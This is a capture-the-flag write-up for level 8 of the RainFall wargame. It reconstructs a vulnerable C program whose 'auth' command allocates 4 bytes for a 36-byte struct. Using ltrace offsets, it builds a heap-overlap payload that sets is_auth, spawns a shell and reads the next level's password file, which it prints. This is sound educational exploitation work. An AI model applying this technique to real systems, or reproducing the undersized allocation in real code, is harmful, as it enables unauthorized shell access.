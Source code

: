 # Level 8

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct s_user {
    int id;
    char login[28];
    int is_auth;
};

int *service;
struct s_user *user;

int main()
{
    while (1)
    {
        printf("%p, %p \n", user, service);

        char buf[128];

        if (!(fgets(buf, 128, stdin)))
            break;

        if (!(strncmp(buf, "auth ", 5)))
        {
            user = malloc(4);
            user->id = 0;

            if (strlen(buf + 5) <= 30)
                strcpy(user, buf + 5);
        }

        if (!(strncmp(buf, "reset", 5)))
            free(user);

        if (!(strncmp(buf, "service", 6)))
            service = strdup(buf + 7);

        if (!(strncmp(buf, "login", 5)))
        {
            if (user->is_auth)
                system("/bin/sh");
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. Different commands are then executed based on the input:
- `auth`: Allocates a user structure and copies the input into it.
- `reset`: Frees the user structure.
- `service`: Copies the input into the service buffer.
- `login`: Checks if the user is authenticated and, if so, grants shell access.

We notice that the `auth` doesn't allocate enough memory for the user structure, which is 36 bytes long (4 bytes for the id, 28 bytes for the login and 4 bytes for the `is_auth` field). This means that, with the `service` command, we can write to the user structure, since it will be allocated within the same memory space, and overwrite the `is_auth` field to gain shell access.

Here's the following steps to perform the exploit:
1. Use `auth` to allocate the user structure.
2. Use `service` to write in the user structure and overwrite `is_auth`
3. Execute `login` to verify authentication and obtain a shell.

We'll use `ltrace` to understand the memory allocations and calculate the size needed to overwrite `is_auth`:
```bash
$ ltrace ./level8
[...]
fgets(auth
"auth \n", 128, 0xb7fd1ac0) = 0xbffff6d0
malloc(4) = 0x0804a008
strcpy(0x0804a008, "\n") = 0x0804a008 # user
[...]
fgets(service
"service\n", 128, 0xb7fd1ac0) = 0xbffff6d0
strdup("\n") = 0x0804a018 # service
[...]
level8@RainFall:~$
```

We notice that the user structure is allocated at `0x0804a008` for only 4 bytes, which is not enough to store the whole structure that is 36 bytes long. Furthermore, we also notice that the service buffer is allocated at `0x0804a018` (so within the same memory space as the user structure, since it is located between `0x0804a008` and `0x0804a028`). Moreover, we notice that the `is_auth` field is located at the 32nd byte of the user structure.  
So let's simply calculate the offset needed to reach `is_auth`:
```
0x0804a018 - 0x0804a008 = 0x10 (16 in decimal)
32 - 16 = 16 bytes of padding
```

We subtract 32 from 16 because the `service` buffer was already allocated 16 bytes after the user structure. So we'll have to write 16 bytes of padding to reach `is_auth`. Anything written after that will overwrite `is_auth`.

Let's craft our payload:
```
"auth "
"service" + padding
"login"

"auth \n" + "service" + "A"*16 + "\n" + "login\n"
```

The `\n` are needed to simulate the user pressing the enter key, and it will also serve as the 17th character needed to overwrite `is_auth`.

Let's run our payload:
```bash
level8@RainFall:~$ (echo "auth "; python -c 'print("service" + "A"*16)'; echo "login"; cat) | ./level8
(nil), (nil)
0x804a008, (nil)
0x804a008, 0x804a018
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

We are now level9! Let's move on to the next level.
